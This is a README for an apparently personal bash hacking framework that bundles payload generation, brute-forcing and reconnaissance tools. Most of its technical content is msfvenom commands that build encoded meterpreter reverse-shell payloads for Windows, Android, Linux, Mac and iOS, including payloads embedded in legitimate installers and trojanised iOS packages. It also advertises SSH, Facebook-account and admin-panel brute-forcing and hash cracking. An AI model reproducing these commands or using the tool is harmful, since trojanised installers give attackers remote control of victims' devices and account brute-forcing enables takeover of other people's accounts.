 # ファックユー
My priv8 framework, written in bash

## Language
+ [GNU Bash](https://www.gnu.org/software/bash/)
+ [PHP](https://www.php.net/)
+ [Python3](https://www.python.org/)

## Dependencies
+ [Metasploit](https://www.rapid7.com/products/metasploit/download/) - For creating and execute payload
+ [Nmap](https://nmap.org/) - For performing port scanning
+ [Curl](https://curl.se/) - For sending request to api

## Optional dependencies
+ [Arcane](https://github.com/tokyoneon/Arcane) - For embedding iOS payload
+ [PHP-Curl](https://www.php.net/manual/en/curl.examples.php) - For sending http request
+ [Shreder](https://github.com/EntySec/Shreder) - For bruteforcing SSH passwords

## Menu Explanation
+ **Payload Generator**
  
  This menu provides automatic payload generator, and will automatically take you to meterpreter
  
  **Available Payloads :**
  + **Windows Payload**
    + **Simple Executable File Payload**

    ```sh
    msfvenom -p windows/meterpreter/reverse_tcp -e x86/shikata_ga_nai -i 6 LHOST=$ip LPORT=$port -f exe > $out
    ```
    + **Payload Embedded to Installer**
    
    ```sh
    msfvenom -a x86 --platform windows -x $ins -k -p windows/meterpreter/reverse_tcp LHOST=$ip LPORT=$port -e x86/shikata_ga_nai -i 9 -f exe -o $out
    ```
  + **Android Payload**
    + **Simple Aplication Package Payload**
    
    ```sh
    msfvenom -p android/meterpreter/reverse_tcp LHOST=$ip LPORT=$port R > $out
    ```
  + **Linux Payload**
    + **Simple Reverse TCP Payload**
    
    ```sh
    msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=$ip LPORT=$port -f elf > $out
    ```
  + **Mac Payload**
    + **Simple Reverse TCP Payload**
    
    ```sh
    msfvenom -p osx/x86/shell_reverse_tcp LHOST=$ip LPORT=$port -f macho > $out
    ```
    + **Executable Python Payload**
    
    ```sh
    msfvenom -p python/meterpreter/reverse_tcp LHOST=$ip LPORT=$port > $out
    ```
  + **iOS Payload**
    + **Reverse TCP Payload (execute via SSH)**
    
    ```sh
    msfvenom -p apple_ios/aarch64/meterpreter_reverse_tcp LHOST=$ip LPORT=$port -f macho -o $out
    chmod +x $out
    ldid -S $out
    ```
    + **Embedded iOS Package (packaged by Arcane)**
    
    ```sh
    ./arcane.sh --input $deb --lhost $ip --lport $port --cydia --netcat
    ```

+ **Brute Force Attack**
  
  This menu provides tools for performing Brute Force attack
  + **SSH Password Brute** - Bruteforcing password for username@host desired by user
  + **Facebook Account Brute** - Can be used for bruteforcing multiple account with multiple password

+ **DNS Queries**
  
  This menu provides tools for using DNS queries
  + **DNS Lookup** - View the standard DNS records for a domain
  + **Reverse DNS Lookup** - Discover the reverse DNS entries for an IP address, a range of IP addresses or a domain name
  + **DNS Host Records** - Find all Forward DNS records for a domain
  + **Shared DNS Servers** - Find hosts sharing DNS servers
  + **DNS Digging** - Get all DNS records for a target domain

+ **IP Tools**
  
  This menu provides tools for lookup IP information
  + **GeoIP Location Lookup** - Find the location of an IP address
  + **Reverse IP Lookup** - Find all A records associated with an IP address
  + **Subnet Lookup** - Determine the properties of a network subnet
  + **Autonomous System Lookup** - Check an Autonomous System Number for IP prefixes
  + **Banner Grabbing** - Discover network services by simply querying the service port

+ **Web Tools**
  
  This menu provides tools for Web Pentesting
  + **HTTP Header Check** - Review the HTTP Headers from a web server
  + **Extract Links From Page** - Parse the html of a website and extract links from the page
  + **Reverse Google Analytics Lookup** - Perform a reverse Google Analytics search to find all web properties associated with a Google Analytics ID
  + **Subdomain Finder** - Automatically search all subdomains from host
  + **Subdomain Brute (using wordlists)** - Perform Bruteforce attack to search all subdomains from hosts
  + **Directory Brute** - Perform Bruteforce attack to search all directory from hosts
  + **Admin Login Finder** - Perform Bruteforce attack to search panel for admin login

+ **Hash Killer**
  
  This menu provides tools for Hash Cracking

+ **Nmap Helper**

## External Links
+ [HackerTarget](https://hackertarget.com/) - Online Vulnerability Scanners
+ [Omnisint Labs](https://omnisint.io/) - Rapid7's Project Sonar API
+ [N1ght_Frmwrk](https://github.com/N1ght420/N1ght_Frmwrk) - Priv8 framework by N1ght.Hax0r
+ [Adfinder](https://github.com/N1ght420/adfinder) - Simple Admin Login Finder
+ [Subdoin](https://github.com/N1ght420/Subdoin) - Subdomain Grabber
+ [Dircrunch](https://github.com/N1ght420/Dircrunch) -  Simple tool for Searching Directory
+ [Hashatsu](https://github.com/N1ght420/Hashatsu) - Simple Hash Killer

## Note
```
Some of tools in this script require root access
```